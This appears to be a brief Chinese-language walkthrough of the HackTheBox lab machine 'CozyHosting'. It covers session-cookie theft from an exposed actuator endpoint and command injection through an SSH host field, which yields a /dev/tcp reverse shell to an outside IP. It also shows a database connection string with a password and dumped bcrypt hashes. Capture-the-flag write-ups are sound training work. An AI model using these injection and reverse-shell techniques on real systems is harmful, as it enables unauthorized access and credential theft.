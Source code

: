 ## CozyHosting
#eASY #Linux

nmap 扫描端口

dirsearch 扫描目录

![](attachments/Pasted%20image%2020230910150836.png)

`http://cozyhosting.htb/actuator/sessions`

![](attachments/Pasted%20image%2020230910150903.png)

配置cookie登录，访问admin

![](attachments/Pasted%20image%2020230910151303.png)

host ：127.0.0.1
username: root

![](attachments/Pasted%20image%2020230910153419.png)

这里应该是命令执行 ssh


![](attachments/Pasted%20image%2020230910153533.png)

带有username和host的是`[-J [user@]host[:port]]`

```
;`(sh)0>/dev/tcp/10.10.16.8/9999`
exec >&0
```
![](attachments/Pasted%20image%2020230910164753.png)

script /dev/null -c bash 美化

![](attachments/Pasted%20image%2020230910164957.png)

python 将jar包下载

![](attachments/Pasted%20image%2020230910195809.png)


`psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost/postgres"`

连接进入

![](attachments/Pasted%20image%2020230911075447.png)

```
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```